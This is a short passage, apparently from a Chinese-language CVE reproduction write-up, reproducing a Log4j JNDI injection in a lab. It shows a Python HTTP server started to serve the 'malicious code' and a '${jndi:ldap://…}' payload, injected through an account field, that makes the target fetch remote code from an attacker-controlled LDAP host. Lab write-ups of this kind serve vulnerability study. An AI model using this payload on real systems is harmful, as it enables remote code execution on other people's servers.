 ![image-20241126225152411](CVE漏洞复现/image-20241126225152411.png)	

```
在启动http服务，确保能够下载到恶意代码。
python -m http.server 8089
```

![image-20241126225216767](CVE漏洞复现/image-20241126225216767.png)	

```
将下面的payload从账号中注入，即可显示计算器。
${jndi:ldap://192.168.15.128:7365/test}
```

![image-20241126225352353](CVE漏洞复现/image-20241126225352353.png)	
